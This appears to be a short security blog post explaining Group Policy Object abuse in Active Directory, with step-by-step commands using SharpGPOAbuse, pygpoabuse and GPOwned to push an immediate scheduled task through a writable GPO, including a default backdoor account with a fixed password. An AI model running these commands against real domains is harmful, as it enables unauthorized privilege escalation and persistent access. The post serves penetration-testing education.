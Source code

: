 ```yaml
---
title: "GPO Abuse"
date: 2025-10-31 00:00:00 +0800
categories: [AD- Attacks]
tags: [GPO , GPOabuse ]
platform: AD- Attacks
author: 0xmr
image: /assets/img/posts/gpo.jpg
excerpt: "Technical Understanding and Practical Overview"
---
```


# GPO 

Group Policies are saved as Group Policy Objects (GPOs) which are then associated with Active Directory objects such as sites, domains, or organizational units (OUs). Domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers).[Reference here](https://adsecurity.org/?p=2716)


## how we Abuse it

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. (By Default 5 min for Domain Controllers and 90 min for Domain users.)

## Tool's 
(`SharpGPOAbuse.exe`) for windows systems or (`pyGPOabuse.py` and `GPOwned.py`)  for UNIX-like systems.

# GPO Write
Let's get in and learn with commands, how it's possible to create a scheduled task and delete itself 
## Check if you have the writeDACL and Group Policy Creator Owners
```bash
whoami /all
```
## Grab the Domain GPO iD
```bash
Get-GPO -All
```
using `pygpoabuse`
By Default is create a user called John and password :- H4x00r123.. 
```bash
python3 pygpoabuse.py '$domain'/'$user':'$password'  -gpo-id 'id'
```
using `gpowned
```bash
GPOwned -u '$user' -p '$password' -d '$domain' -dc-ip '$domain' -gpoimmtask -name 'id' -author 'DOMAIN\Administrator' -taskname 'anyname' -taskdescription 'some description' -dstpath 'c:\windows\system32\notepade.exe'
```
## So the final Step to make changes in Domain
```bash
gpupdate /force
```
